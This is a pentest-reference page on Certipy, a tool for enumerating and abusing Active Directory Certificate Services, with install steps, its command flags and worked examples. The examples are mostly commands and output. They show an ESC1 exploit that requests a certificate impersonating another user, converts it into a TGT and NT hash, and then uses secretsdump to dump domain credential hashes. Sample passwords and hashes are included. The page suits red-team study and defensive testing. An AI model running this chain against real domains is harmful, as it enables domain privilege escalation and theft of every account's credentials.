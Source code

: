 ```yaml
---
title : "Certipy"
# pre : ' '
description : "Active Directory Certificate Services enumeration and abuse."
date : 2022-10-11T10:36:25+02:00
# hidden : true
# draft : true
weight : 290
tags : ['Other', 'Active Directory', 'ADCS']
---
```


---

Active Directory Certificate Services enumeration and abuse.

## Installation

```plain
python3 -m venv certipy-venv
source certipy-venv/bin/activate
pip install certipy-ad
```

## Usage

```plain
certipy [-v] [-h] {account,auth,ca,cert,find,forge,ptt,relay,req,shadow,template} ...
```

## Flags

```plain
Certipy v4.8.2 - by Oliver Lyak (ly4k)

positional arguments:
  {account,auth,ca,cert,find,forge,ptt,relay,req,shadow,template}
                        Action
    account             Manage user and machine accounts
    auth                Authenticate using certificates
    ca                  Manage CA and certificates
    cert                Manage certificates and private keys
    find                Enumerate AD CS
    forge               Create Golden Certificates
    ptt                 Inject TGT for SSPI authentication
    relay               NTLM Relay to AD CS HTTP Endpoints
    req                 Request certificates
    shadow              Abuse Shadow Credentials for account takeover
    template            Manage certificate templates

options:
  -v, --version         Show Certipy's version number and exit
  -h, --help            Show this help message and exit
```

## Examples

For more examples please check the [Github Repo](https://github.com/ly4k/Certipy).

### Finding CA

```plain
$ certipy find -u crypt0rr@offsec.nl -p Welkom1234 -dc-ip 10.10.10.10
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 9 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 8 enabled certificate templates
[*] Trying to get CA configuration for 'CA01-OFFSEC' via CSRA
[*] Got CA configuration for 'CA01-OFFSEC'
[*] Saved BloodHound data to '202210114803_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '202210114803_Certipy.txt'
[*] Saved JSON output to '202210114803_Certipy.json'
```

### Exploiting ESC1

To find the exact Certificate Authority (CA) use `certutil –config – -ping` in CMD (<https://www.cloudservus.com/blog/how-to-find-a-certificate-authority-in-your-active-directory-environment>).

```plain
$ certipy req -u 'crypt0rr.offsec.nl' -p 'Welkom1234' -target 'dc01.offsec.nl' -ca 'CA01-OFFSEC' -template 'ESC1' -upn 'john-da@offsec.nl'
Certipy v4.0.0 - by Oliver Lyak (Ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 707
[*] Got certificate with UP 'john-da@offsec.nl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'john-da.pfx'
```

```plain
$ certipy auth -pfx 'john-da.pfx' -dc-ip '10.10.10.11' -username 'john-da' -domain 'offsec.nl'
Certipy v4.0.0 - by Oliver Lyak (ly4k)
[*] Using principal: john-da@offsec.nl
[*] Trying to get TGT.
[*] Got TGT
[*] Saved credential cache to john-da.ccache'
[*] Trying to retrieve NT hash for 'john-da'
[*] Got hash for 'john-da@offsec.nl': aad3b435b51404eeaad3b435b51404ee:caec1e1d755119a15bfb6cd3d5994305
```

```plain
$ secretsdump.py -just-dc -hashes 'aad3b435b51404eeaad3b435b51404ee:caec1e1d755119a15bfb6cd3d5994305' 'offsec.nl/john-da@dc01.offsec.nl'
Impacketv0.10.1.dev1+20220504.120002.d5097759 - Copyright 2022 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\id:rid: lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5f859684db2422704e9e4c2cd7e27b07:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
```

## URL List

- [Github.com - Certipy](https://github.com/ly4k/Certipy)
